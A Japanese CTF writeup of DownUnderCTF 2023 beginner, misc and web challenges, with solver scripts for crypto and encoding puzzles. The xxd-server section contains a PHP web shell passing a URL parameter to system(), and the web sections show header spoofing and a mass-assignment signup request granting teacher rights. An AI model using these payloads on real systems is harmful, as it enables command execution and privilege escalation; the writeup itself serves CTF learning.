



# DownUnderCTF 2023 Writeup

DownUnderCTF 2023（<https://ctftime.org/event/1954/>）に参加しました。  
金, 01 9月 2023, 18:30 JST — 日, 03 9月 2023, 18:30 JST

チーム：OnePaddingで参加して、1424チーム中124位でした。

最近（というか今回も）Web問があんまり解けていないので次回は頑張りたいです。  
beginner問題でいろんなジャンルの入門レベルの問題があったので、beginnerレベルの問題ばかりやってました。  
簡単にWriteupを書きたいと思います。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [beginner/𝕏](#beginnerx)
- [beginner/Welcom to DUCTF!](#beginnerwelcom-to-ductf)
- [beginner/blinkybill](#beginnerblinkybill)
- [beginner/complementary](#beginnercomplementary)
- [beginner/randomly chosen](#beginnerrandomly-chosen)
- [beginner/xxd-server](#beginnerxxd-server)
- [beginner/flag art](#beginnerflag-art)
- [misc/My First C Program!](#miscmy-first-c-program)
- [web/actually-proxed](#webactually-proxed)
- [web/grades_grades_grades](#webgrades_grades_grades)

<!-- /code_chunk_output -->

## beginner/𝕏

773 Solves / 25 points

X(旧Twitter)に3つ投稿があり、添付されている10枚の画像にそれぞれFlagのパーツが書かれている。  
注意点として2つめの投稿の画像では、意味が成り立つように順番を入れ替える必要があった。

<https://twitter.com/DownUnderCTF/status/1697304493409337835>
<https://twitter.com/DownUnderCTF/status/1697308270439051484>
<https://twitter.com/DownUnderCTF/status/1697312042821066846>

- Flag

```text
DUCTF{ThanksEl0nWeCantCall1tTheTw1tterFl4gN0w}
```

## beginner/Welcom to DUCTF!

667 Solves / 100 points

- 問題文

```text
To compile our code down here, we have to write it in the traditional Australian Syntax: ( Try reading bottom up! )

¡ƃɐlɟ ǝɥʇ ʇno noʎ ʇuᴉɹd ll,ʇᴉ puɐ ɹǝʇǝɹdɹǝʇuᴉ ǝɥʇ ɥƃnoɹɥʇ ʇᴉ unɹ puɐ ǝɹǝɥ ǝpoɔ sᴉɥʇ ǝʞɐʇ ʇsnJ .ƎWWIפ uɐɔ noʎ NOʞƆƎɹ I puɐ ┴∩Oq∀ʞ˥∀M ƃuᴉoפ '¡H∀N H∀Ǝ⅄ 'ɐʞʞɐ⅄ pɹɐH 'ǝʞᴉl sǝɹnʇɐǝɟ ɔᴉʇsɐʇuɐɟ ƃuᴉɹnʇɐǝℲ

.snlԀ snlԀ ǝᴉssn∀ ǝʌᴉsnlɔuᴉ ʎʇᴉuɐɟoɹd ǝɹoɯ 'ɹǝʇsɐɟ 'ɹǝʇʇǝq ǝɥʇ oʇ noʎ ǝɔnpoɹʇuᴉ I uɐɔ ʇnq ++Ɔ ɟo pɹɐǝɥ ǝʌ,no⅄
```

添付されているAussie++コードを実行すればよい。  
以下のサイトの`upside down mode`でコードを実行すると、Flagがもらえる。

<https://aussieplusplus.vercel.app/>

- Flag

```text
DUCTF{1ts-5oCl0ck_5om3wh3rE}
```

## beginner/blinkybill

535 Solves / 100 points

wav形式のファイルが渡される。  
音声ファイルを再生すると、何かの曲とモールス信号音が同時に流れている。  
モールス信号のみを取り出すと、Flagが取得できる。

聞いただけでは分からなかったので、以下のサイトで波形を見る。

<https://audiomass.co/>



振幅が大きい箇所がモールス信号の箇所だと分かるので、後はASCIIに変換して完了。

```text
... .-. .. -. --. -... .- -.-. -.- - .... . - .-. . . ...
```

<https://morsecode.world/international/translator.html>

- Flag

```text
DUCTF{SRINGBACKTHETREES}
```

## beginner/complementary

436 Solves / 100 points

- 問題コード

```python
flag = open('./flag.txt', 'rb').read().strip()
m1 = int.from_bytes(flag[:len(flag)//2])
m2 = int.from_bytes(flag[len(flag)//2:])
n = m1 * m2
print(n)
```

- 出力

```text
6954494065942554678316751997792528753841173212407363342283423753536991947310058248515278
```

nの因数を求めて、m1とm2を総当たりで確認すれば良さそう。  
因数は以下のサイトで確認。
<http://factordb.com/index.php?query=6954494065942554678316751997792528753841173212407363342283423753536991947310058248515278>

```text
2,3,19,31,83,3331,165219437,550618493,66969810339969829,1168302403781268101731523384107546514884411261
```

効率よく求めるならm1とm2が近い値の場合のみ実施すればよいのだろうけど、全部で2^10通り程なのでそのまま総当たりで求めた。

- solver.py

```python
factors = [1168302403781268101731523384107546514884411261,2,3,19,31,83,3331,165219437,550618493,66969810339969829]
map = []

for i in range(1, 2**10):
  f = i
  m1 = 1
  m2 = 1
  for a in range(len(factors)):
    if f & 1 == 1:
      m1 = m1 * factors[a]
    else:
      m2 = m2 * factors[a]
    f = f >> 1
  try:
    print(f'm1: {m1}, m2: {m2}, text: {m1.to_bytes(20, "big")} {m2.to_bytes(20, "big")}')
  except:
    pass
```

- Flag

```text
DUCTF{is_1nt3ger_f4ct0r1s4t10n_h4rd?}
```

## beginner/randomly chosen

365 Solves / 100 points

- 問題コード

```python
import random

random.seed(random.randrange(0, 1337))
flag = open('./flag.txt', 'r').read().strip()
out = ''.join(random.choices(flag, k=len(flag)*5))
print(out)
```

- 出力

```text
bDacadn3af1b79cfCma8bse3F7msFdT_}11m8cicf_fdnbssUc{UarF_d3m6T813Usca?tf_FfC3tebbrrffca}Cd18ir1ciDF96n9_7s7F1cb8a07btD7d6s07a3608besfb7tmCa6sasdnnT11ssbsc0id3dsasTs?1m_bef_enU_91_1ta_417r1n8f1e7479ce}9}n8cFtF4__3sef0amUa1cmiec{b8nn9n}dndsef0?1b88c1993014t10aTmrcDn_sesc{a7scdadCm09T_0t7md61bDn8asan1rnam}sU
```

flag.txtの文字列をランダムで選択して出力しているが、初期シードが0～1336の間なので総当たりすればよさそう。  
Flagの文字数は61文字(305/5=61)だと分かっているので、確認用にchr(0)～chr(60)の文字列を使って比較した。

- solver.py

```python
import random

c = 'bDacadn3af1b79cfCma8bse3F7msFdT_}11m8cicf_fdnbssUc{UarF_d3m6T813Usca?tf_FfC3tebbrrffca}Cd18ir1ciDF96n9_7s7F1cb8a07btD7d6s07a3608besfb7tmCa6sasdnnT11ssbsc0id3dsasTs?1m_bef_enU_91_1ta_417r1n8f1e7479ce}9}n8cFtF4__3sef0amUa1cmiec{b8nn9n}dndsef0?1b88c1993014t10aTmrcDn_sesc{a7scdadCm09T_0t7md61bDn8asan1rnam}sU'

keys = ''.join([chr(i) for i in range(0, len(c)//5)])
for seed in range(0,1337):
  random.seed(seed)
  rand_str = ''.join(random.choices(keys, k=len(keys)*5))
  dict = {}
  for i in range(0, len(c)):
    dict[ord(rand_str[i])] = c[i]
  flag = ''.join(tups[1] for tups in sorted(dict.items()))
  if flag[:6] == 'DUCTF{':
    print(f'seed: {seed}, flag: {flag}')
    break
```

```bash
$ python solver.py 
seed: 252, flag: DUCTF{is_r4nd0mn3ss_d3t3rm1n1st1c?_cba67ea78f19bcaefd9068f1a}
```

- Flag

```text
DUCTF{is_r4nd0mn3ss_d3t3rm1n1st1c?_cba67ea78f19bcaefd9068f1a}
```

## beginner/xxd-server

306 Solves / 100 points

PHPで書かれたアプリケーションでファイルアップロード機能がある。  
アップロード先を確認すると、xxdコマンドを使用したような状態で出力される。



試しにPHPのコードを含むファイルをアップロードすると、PHPのエラーが出力された。  
後は、コードが実行されるように上手く調整すれば良さそう。

- index.php

```php
<SNIP>
function xxd(string $s): string {
	$out = '';
	$ctr = 0;
	foreach (str_split($s, 16) as $v) {
		$hex_string = implode(' ', str_split(bin2hex($v), 4));
		$ascii_string = '';
		foreach (str_split($v) as $c) {
			$ascii_string .= $c < ' ' || $c > '~' ? '.' : $c;
		}
		$out .= sprintf("%08x: %-40s %-16s\n", $ctr, $hex_string, $ascii_string);
		$ctr += 16;
	}
	return $out;
}
<SNIP>
```

改行コードを含んで16文字ずつ区切られるため、コメント`/**/`を使うことでエラーを回避できた。  
以下のファイルをアップロードして、`<アップロード先URL>?a=cat%20/flag`でFlagが取得できる。

```php
<?php      $b=/**/$_GET['a']; /**/system($b);?>
```



ちなみに、生成されるファイルは以下のような感じ。

```php
00000000: 3c3f 7068 7020 2020 2020 2024 623d 2f2a  <?php      $b=/*
00000010: 2a2f 245f 4745 545b 2761 275d 3b20 2f2a  */$_GET['a']; /*
00000020: 2a2f 7379 7374 656d 2824 6229 3b3f 3e    */system($b);?> 
```

- Flag

```text
DUCTF{00000000__7368_656c_6c64_5f77_6974_685f_7878_6421__shelld_with_xxd!}
```

## beginner/flag art

285 Solves / 100 points

- 問題コード

```python
message = open('./message.txt', 'rb').read() + open('./flag.txt', 'rb').read()

palette = '.=w-o^*'
template = list(open('./mask.txt', 'r').read())

canvas = ''
for c in message:
    for m in [2, 3, 5, 7]:
        while True:
            t = template.pop(0)
            if t == 'X':
                canvas += palette[c % m]
                break
            else:
                canvas += t

print(canvas)
```

- 出力

```text
                                                           ==                                   
                                          wo=.=*.w.        ^==-                                 
                                     ^..ow==w*.w=o=        .w^.                                 
                                .--==w*.w=o=...=.=         *.w.^==                              
                             .-.wwo=.=*.w.^.wwo==.-=.=     *..--.=-*=                           
                           ....w.^==-^.wwo.w=o.wo*=...==.-.wwo=.o=.wo                           
                         *==w*..--..--=w=-.w.^==-^=w=-=.-^.wwo..o..wo*                          
                    =w=-.wwo==oo==w*==.-=www.wwo.wo*==w*==.-.wwo=.w=..-                         
            *..-*.wwo.=-o=.oo==.-.wwo==.-      =.=*        .wwo.wo*=w=-..                       
          ow=w=-.wwo==w*..ow=w=-.wwo                       ==.-=.=*==oo=w=-.                    
          wwo..ow==w*.w.^.=.w=.=*==o                       o.wwo=wo.=.=*..ow.=                  
          .w==.-.wwo.w=o=.=*.wwo==oo                       ==w*=www=w=-.wwo.w=o.w               
          o*=w=-.wwo==oo=w=-==.-==.-                       ==w*==-^=w=-.wwo..--=.               
          =*.w.^==-^.wwo=w=-.w.^=.=*      =.w^      ==-^   .wo*.==o.wwo=wo^=.=*=.               
            w^..ow.wwo..wo..--==w*==-^.wwo=...==.-.=-w.w   wo.w-^==.===wo..o..=..               
              =.-o..ow=.=w=.o=..-*.w.^==.-.w=o..ow=.w^=.   o=.w=o==o...-*.w.^=w.                
              o..-*..wo=w.o..wo..--.=w-==-^=w.o..wo..ow.   .-*==oo=w.o..wo..--.                 
              =w-==-^=w.o.=w-..ow==.        *=w.o.w-.===   w=w.o..--..-*..-*=                   
               www=.w^.=w.=w.o.w=              o.=w-.w-...--=.=w=w.o..-*..ow                    
                 =w.o=                             .o=.wo*==o..w.^=.=w==.                       
                                                      -=.=w=w.o..ow=.=w==                       
                                                        oo.=w-==o..w.^.=                        
                                                           .w=.   =w.                           
                                                                                                
                                                                .ow==o..w                       
                                                                .^==-^=.-                       
                                                                  .=w.*
```

flag.txtの一文字ずつ2, 3, 5, 7で割った余りを計算して、余りに応じて文字を出力している。  
2, 3, 5, 7で割った余りが同じ数値は`2 * 3 * 5 * 7 = 210`の周期のため、印字可能な文字の範囲であれば一意の値を求めることができる。

- solver.py

```python
import string

palette='.=w-o^*'
dict = {}
for s in string.printable:
    keys = []
    for m in [2, 3, 5, 7]:
        keys.append(palette[ord(s) % m])
    dict[''.join(keys)] = s

c = '==wo=.=*.w.^==-^..ow==w*.w=o=.w^..--==w*.w=o=...=.=*.w.^==.-.wwo=.=*.w.^.wwo==.-=.=*..--.=-*=....w.^==-^.wwo.w=o.wo*=...==.-.wwo=.o=.wo*==w*..--..--=w=-.w.^==-^=w=-=.-^.wwo..o..wo*=w=-.wwo==oo==w*==.-=www.wwo.wo*==w*==.-.wwo=.w=..-*..-*.wwo.=-o=.oo==.-.wwo==.-=.=*.wwo.wo*=w=-..ow=w=-.wwo==w*..ow=w=-.wwo==.-=.=*==oo=w=-.wwo..ow==w*.w.^.=.w=.=*==oo.wwo=wo.=.=*..ow.=.w==.-.wwo.w=o=.=*.wwo==oo==w*=www=w=-.wwo.w=o.wo*=w=-.wwo==oo=w=-==.-==.-==w*==-^=w=-.wwo..--=.=*.w.^==-^.wwo=w=-.w.^=.=*=.w^==-^.wo*.==o.wwo=wo^=.=*=.w^..ow.wwo..wo..--==w*==-^.wwo=...==.-.=-w.wwo.w-^==.===wo..o..=..=.-o..ow=.=w=.o=..-*.w.^==.-.w=o..ow=.w^=.o=.w=o==o...-*.w.^=w.o..-*..wo=w.o..wo..--.=w-==-^=w.o..wo..ow..-*==oo=w.o..wo..--.=w-==-^=w.o.=w-..ow==.*=w.o.w-.===w=w.o..--..-*..-*=www=.w^.=w.=w.o.w=o.=w-.w-...--=.=w=w.o..-*..ow=w.o=.o=.wo*==o..w.^=.=w==.-=.=w=w.o..ow=.=w==oo.=w-==o..w.^.=.w=.=w..ow==o..w.^==-^=.-.=w.*'
flag = []
for a in range(0,len(c), 4):
    key = c[a:a+4]
    flag.append(dict[key])
print(''.join(flag))
```

```bash
$ python solver.py 
Congratulations on solving this challenge! The mask has 900 X's so here are some random words to make the message long enough. Your flag is: DUCTF{r3c0nstruct10n_0f_fl4g_fr0m_fl4g_4r7_by_l00kup_t4bl3_0r_ch1n3s3_r3m41nd3r1ng?}
```

- Flag

```text
DUCTF{r3c0nstruct10n_0f_fl4g_fr0m_fl4g_4r7_by_l00kup_t4bl3_0r_ch1n3s3_r3m41nd3r1ng?}
```

## misc/My First C Program!

315 Solves / 100 points

C言語っぽいコードが渡される。  
コード自体は追っていけそうなので、Flagを出力する箇所から推測する。

```c
<SNIP>
   union print_flag(end, middle, secondmiddle, start, realstart) => {
print("The flag is:")!
print("DUCTF{${start}_${realstart}_${end}_${secondmiddle}_1s_${middle}_C}")!!!
   }
<SNIP>
```

- start
  - 以下のコードから、`I`だと推測できる。（というよりFlagの文脈で推測した。）

```c
ction get_a_char() => {
   const var dank_char = 'a'!
   if (;(7 ==== undefined)) {
      dank_char = 'I'!!
   }
   when (dank_char == 22) {
      print("Important 3 indentation check AI")!
      dank_char = 'z'!
   }
   if ( dank_char == 'j' ) {
      dank_char = 'c'!!
   }
   if ( 1.0 ==== 1.0) {
      dank_char = 'A'!!
   }

   return previous dank_char!
}
```

- realstart
  - `D${math()}${guesstimeate()}`
  - `D0nT`になる。

```c
   fun math() => {
print("MatH!")
return 10 % 5
   }
```

```c
   func guesstimeate() => {
print('Thunking')!
print("life times ain't got nothign on rust!")!
print("The future: ${name}!")
const const name<-1> = "Pix"!
const const letter = 'n'
letter = 'p'
const var guess = "${previous letter}T"!
guess = "T${letter}${guess}"!
return previous guess!
   }
```

- end
  - 同様にして`th15`

- secondmiddle
  - vars[-1]の値。
  - `const const const vars = ["R34L", "T35T", "Fl4g", "variBl3"]`
  - Flagの文脈から`R34L`と推測。

- middle
  - `Th1nk`

後は組み合わせるだけ。

- Flag

```text
DUCTF{I_D0nT_Th1nk_th15_1s_R34L_C}
```

- 余談

どうやら、Dreamberd/Cという言語らしい。  
仕様は以下のリンクから確認できる。  
<https://github.com/TodePond/WhenWillProgrammersStopMakingDecisionsForOurSocietyAndJustLeaveUsAloneAlsoHackerNewsIsAVileWebsite>

## web/actually-proxed

419 Solves / 100 points

コードを見ると、`X-Forwarded-For`と`x-forwarded-for`ヘッダ2つチェックしているみたい。  
その両方に`31.33.33.7`つけたらFlagがもらえた。

- リクエスト

```http
GET / HTTP/1.1
Host: actually.proxed.duc.tf:30009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: close
X-Forwarded-For: 31.33.33.7
x-forwarded-for: 31.33.33.7


```

- Flag

```text
DUCTF{y0ur_c0d3_15_n07_b3773r_7h4n_7h3_574nd4rd_l1b}
```

## web/grades_grades_grades

363 Solves / 100 points

JWTで認可制御をしている。  
HS256形式でEncode/Decodeしているが、よくあるJWTの攻撃はできなそうだった。

- auth.py

```python
<SNIP>
SECRET_KEY = secrets.token_hex(32)

def create_token(data):
    token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
    return token

def token_value(token):
    decoded_token = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
    return decoded_token['stu_num'], decoded_token['stu_email'], decoded_token.get('is_teacher', False)

def decode_token(token):
    try:
        return jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
    except jwt.ExpiredSignatureError:
        return None
<SNIP>
```

他に調べてみると、アカウント登録の処理で権限も付与できてしまう実装だった。

- routes.py

```python
<SNIP>
@api.route('/signup', methods=('POST', 'GET'))
def signup():

    # make sure user isn't authenticated
    if is_teacher_role():
        return render_template('public.html', is_auth=True, is_teacher_role=True)
    elif is_authenticated():
        return render_template('public.html', is_auth=True)

    # get form data
    if request.method == 'POST':
        jwt_data = request.form.to_dict()
        jwt_cookie = current_app.auth.create_token(jwt_data)
        if is_teacher_role():
            response = make_response(redirect(url_for('api.index', is_auth=True, is_teacher_role=True)))
        else:
            response = make_response(redirect(url_for('api.index', is_auth=True)))
        
        response.set_cookie('auth_token', jwt_cookie, httponly=True)
        return response

    return render_template('signup.html')
<SNIP>
```

リクエストで送った値をそのまま`jwt_data`としている。

```python
jwt_data = request.form.to_dict()
```

後は、権限を判定している`is_teacher`に適当な値を入れて登録するだけ。

```http
POST /signup HTTP/2
Host: web-grades-grades-grades-c4627b227382.2023.ductf.dev
Content-Length: 82
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

stu_num=salt&stu_email=salt%40example.com&password=hjfkdsahjkgldsa&is_teacher=True
```

登録後、`/grades_flag`にアクセスするとFlagが取得できる。

- Flag

```text
DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}
```
